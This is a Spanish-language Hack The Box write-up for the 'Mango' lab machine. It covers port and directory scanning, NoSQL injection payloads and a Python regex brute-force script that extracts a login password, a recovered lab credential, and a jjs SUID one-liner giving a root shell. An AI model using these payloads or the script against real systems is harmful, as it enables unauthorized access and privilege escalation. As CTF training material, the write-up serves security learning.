





Hack The Box - Mango [Active]

Contenido
- Contenido protegido por contraseña.
- Para desbloquear el contenido debes Ingresar la flag
root.txtde la maquina.
| Nombre | Mango |
|---|---|
| OS | Linux |
| Puntos | 30 |
| Dificultad | Media |
| IP | 10.10.10.162 |
| Maker | MrR3boot |
MASSCAN & NMAP
Escaneo de puertos tcp/udp y servicios con masscan y nmap.
root@aoiri:~/htb/mango# masscan -p1-65535,U:1-65535 10.10.10.162 --rate=1000 -e tun0
Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-12-31 00:09:30 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.162
Discovered open port 22/tcp on 10.10.10.162
# Nmap 7.80 scan initiated Mon Dec 30 17:45:13 2019 as: nmap -p- --min-rate 1000 -o nmap_scan 10.10.10.162
Warning: 10.10.10.162 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.162
Host is up (0.34s latency).
Not shown: 65531 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
443/tcp open https
45463/tcp filtered unknown
# Nmap done at Mon Dec 30 17:46:57 2019 -- 1 IP address (1 host up) scanned in 103.79 seconds
# Nmap 7.80 scan initiated Mon Dec 30 18:09:24 2019 as: nmap -sV -sC -p22,80,443,45436 -o nmap_scan_sc 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.14s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
| 256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_ 256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after: 2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
45436/tcp closed unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 30 18:09:56 2019 -- 1 IP address (1 host up) scanned in 32.05 seconds
HTTP
Al visitar el puerto 80 nos muestra que no tenemos permisos para ver el contenido. 
GOBUSTER - HTTP
Busqueda de directorios y archivos con gobuster.
root@aoiri:~/htb/mango# gobuster dir -u http://10.10.10.162/ -w /usr/share/wordlists/dirb/common_nofirst10.txt -t 15 -q -x php,html,txt
/server-status (Status: 403)
HTTPS
En el puerto 443, nos muestra una pagina tipo buscador.

GOBUSTER - HTTPS
Busqueda de directorios y archivos con gobuster.
root@aoiri:~/htb/mango# gobuster dir -u https://10.10.10.162/ -w /usr/share/wordlists/dirb/common.txt -t 35 -q -x php,html,txt -k
/analytics.php (Status: 200)
/index.php (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
/analytics.php
Encontramos una pagina con una funcionalidad de tabla de ‘excel’. 
SSLSCAN
Utilizamos sslscan para verificar el certificado de la pagina, encontramos un dominio el cual agregamos a /etc/hosts. 
Visitamos la pagina del dominio nuevo (https) pero nos muestra la misma pagina que la ip en https, pero no muestra lo mismo en http. 
Nuevamente ejecutamos gobuster pero no encontramos nada interesante en los directorios.
root@aoiri:~/htb/mango# gobuster dir -u http://staging-order.mango.htb/ -w /usr/share/wordlists/dirb/common.txt -q -x txt,html,php -t 15
/home.php (Status: 302)
/index.php (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
/vendor (Status: 301)
USER - MongoDB NoSQL
Capturamos los datos que se envian al iniciar sesion en el panel intentando encontrar una vulnerabilidad del tipo sql injection, pero ninguno de los parametros era vulnerable. Intentamos con NoSQL Injection dentro de burpsuite:
Parametros:
username[$ne]=sckull&password[$ne]=sckull&login=login

Inyeccion NoSQL - Burpsuite
Utilizamos burpsuite para obtener la contraseña y longitud de ella del usuario mango (asumiendo que mango es un usuario), para conocer la longitud de la contraseña utilizamos el payload, reemplazando el numero 0 por un numero mayor hasta que el resultado de la solicitud sea 200, en el caso del usuario mango la longitud de la contraseña puede ser >= 16 caracteres:
username=mango&password[$regex]=.{16}&login=login

Utilizando el siguiente payload donde el 0 es reemplazado por otro hasta que la respuesta de nuestra solicitud sea Codigo 302 que significa que la expresion regular que le estamos pasando esta haciendo match con la contraseña:
username=mango&password[$regex]=^0&login=login
Vemos que el inicio de la contraseña es h:

Modificamos nuevamente nuestro parametro en password:
username=mango&password[$regex]=^h§0§&login=login
Haciendo el mismo procedimiento cada vez que encontremos una solicitud 302, hasta obtener la contraseña completa:
mango:h3mXK8RhU~f{]f5H
Tambien podemos utilizar el script que PayloadAllTheThings tiene en NoSQL Injection, modificando un poco el codigo para adaptarlo a esta maquina quedaria de esta forma:
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()
#username="mango"
password=""
u="http://staging-order.mango.htb/index.php"
headers = {'application' : 'x-www-form-urlencoded'}
while True:
for c in string.printable:
if c not in ['*','+','.','?','|']:
payload={'username[$eq]':'mango', 'password[$regex]': '^%s' %(password + c), 'login': 'login' }
#print payload
r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
if r.status_code == 302:
#print "For check the payload ..."
#print payload
print("Found one more char : %s" % (password+c))
password += c
Obtuvimos la contraseña del usuario mongo pero no pudimos iniciar sesion en el panel, nos redirige al index, utilizamos las credenciales en el servicio ssh y logramos obtener una shell.

Dentro de los servicios de la maquina encontramos que esta corriendo mongo en el puerto 27017. 
Utilizando la shell de mongo pudimos obtener las credenciales del usuario admin.

Cambiamos de usuario y obtuvimos nuestra flag user.txt.

PRIVILEGE ESCALATION
Enumeramos los ficheros SUID para tomar ventaja de estos, encontramos que existe en la maquina jjs, utilizamos GTFOBINS para obtener una shell. Modificamos sh por bash, ya que nos da un error al intentar ejecutar comandos.
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc \$@|bash\${IFS}-p _ echo bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
Obtuvimos nuestra shell con privilegios root y nuestra flag root.txt.